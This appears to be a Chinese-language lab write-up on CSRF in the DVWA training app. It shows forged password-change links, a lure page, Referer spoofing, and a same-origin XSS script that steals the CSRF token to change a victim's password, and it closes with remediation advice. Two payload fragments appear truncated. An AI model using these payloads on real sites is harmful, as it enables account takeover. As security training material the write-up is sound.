


# CSRF

改密码页面。用户登录状态下访问一个链接，密码就被改了，用户自己什么都没点。

原理一句话：浏览器发请求时会自动带上目标站点的 Cookie，而服务端只靠 Cookie 认人。所以只要能让受害者的浏览器去访问那个地址，请求就带着他的身份发出去了。

## Low

请求长这样：

```
GET /dvwa/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change
```

敏感操作走 GET，没有 token，不验 Referer，Cookie 有效就能改。

### 最省事的验证

直接在已登录的浏览器地址栏里输：

```
http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change
```

页面提示成功，密码变成 `hacked`。这一步只证明"改密码不需要旧密码"，还不算 CSRF，因为是自己点的。

### 超链接

写一个 html 放在本地：

```html
<h1>点击查看精彩内容</h1>
<a href="http://127.0.0.1/dvwa/vulnerabilities/csrf/?password_new=hacked&password_conf=hacked&Change=Change">
  点这里
</a>
```

受害者登录着 DVWA，点一下这个链接，密码就改了。请求带的是受害者的 Cookie，服务端看不出区别。

### img 标签

比超链接更狠的是不用点：

```html
<h1>正常页面</h1>

```

浏览器解析到 `img` 就去拉那个地址，页面打开的一瞬间请求已经发出去了。`<script>`、`<iframe>` 也能干同样的事。

这条链子的核心不是"链接危险"，是**敏感操作放在 GET 上**。GET 可以被预加载、被图片引用、被爬虫抓，只要 URL 到了浏览器手里就完成了攻击。

## Medium

加了 Referer 检查：

```php
if (strpos($_SERVER['HTTP_REFERER'], $_SERVER['SERVER_NAME']) !== false) {
    // 允许修改
}
```

只判断 Referer 里有没有 `127.0.0.1` 这个字符串。

问题一：字符串包含不是域名校验。攻击者把恶意页面放在 `http://127.0.0.1:8000/csrf.html`，Referer 里就有 `127.0.0.1`，照样过。真实环境里对应的是把恶意页放在同域的子目录、或者用 `127.0.0.1.evil.com` 这种域名。

问题二：Referer 本身不可靠。用户浏览器隐私设置、代理、插件都可能把它去掉或改写，服务端拿不到就没法判断，很多实现这时候会选择放行。

### 手工验证

Burp 拦下正常请求，只改 Referer：

```
Referer: http://127.0.0.1/dvwa/vulnerabilities/csrf/
```

放行，改密成功。这一步说明服务端的判断完全建立在请求头这个可伪造的字段上。





## High

加了 `user_token`：

```html
<input type="hidden" name="user_token" value="xxxx">
```

提交时必须带上正确的 token，缺了或者错了都失败，随便填一个 `user_token=123` 也没用。

单靠伪造请求打不进来。但 token 不是万能的：

### 配合 XSS 拿 token

如果同一个站点上有 XSS，恶意脚本和 DVWA 是同源的，就能直接去请求改密页面、把 token 抠出来、再带着 token 提交。三步：

1. `fetch('/dvwa/vulnerabilities/csrf/')` 拿到页面 HTML
2. 正则或者 DOMParser 取出 `user_token` 的值
3. 拼进改密请求再 `fetch` 一次

```html
<script>
fetch('/dvwa/vulnerabilities/csrf/')
  .then(r => r.text())
  .then(t => {
    let m = t.match(/name=['"]user_token['"] value=['"]([^'"]+)['"]/);
    if (m) {
      fetch('/dvwa/vulnerabilities/csrf/?password_new=highhacked&password_conf=highhacked&Change=Change&user_token=' + m[1]);
    }
  });
</script>
```

如果目标把 `<script>` 过滤了，换成事件属性一样能跑：

```html
r.text()).then(t=>{let m=t.match(/name=['\x22]user_token['\x22] value=['\x22]([^'\x22]+)['\x22]/);if(m){fetch('/dvwa/vulnerabilities/csrf/?password_new=highhacked&password_conf=highhacked&Change=Change&user_token='+m[1])}})">
```


结论：**CSRF token 能挡住"从外部站点伪造请求"，挡不住"同源脚本代发请求"**。有 XSS 就等于有 token。所以防 CSRF 和防 XSS 是一件事的两面。

## Impossible 为什么打不进去

改密码要求填当前密码：

```
Current password: ____
New password:     ____
Confirm:          ____
```

攻击者能伪造请求，但不知道受害者现在的密码，`password_current` 这一栏填不出来。

这一条比 token 更硬，因为它不依赖任何可以被脚本读到的值。当前的密码只在用户脑子里，XSS 也读不到（除非当场截表单）。

## 我卡住的地方

- Low 一开始以为要在攻击者页面上写表单提交，试了 `form` 的 `target` 之类，绕了一圈。其实一个 `img` 就够，因为改密接口就在 GET 上。
- Medium 用 `127.0.0.1:8000` 起恶意页面试过一次，Referer 里确实带 `127.0.0.1`，但请求还是失败。原因是我的页面在另一个端口，Cookie 的 Path 和端口策略跟我预想的不一样。最后老老实实用 Burp 改 Referer 验证逻辑，更干净。
- High 那段正则第一次写错，`\x22` 的转义在 html 属性里被吃了一层，导致匹配不到。改成单引号包属性才通。

## 怎么修

1. 敏感操作一律 POST，不用 GET。
2. CSRF token，跟 Session 绑定，每次请求校验。
3. Cookie 加 `SameSite=Lax` 或 `Strict`。Lax 已经能挡住大部分跨站 POST。
4. 改密、改绑手机、转账这类操作要求二次验证（旧密码、短信码）。
5. 校验 Origin 头，比 Referer 靠谱，但同样不能单独用。
6. 修 XSS。有 XSS 在，token 就等于公开的。
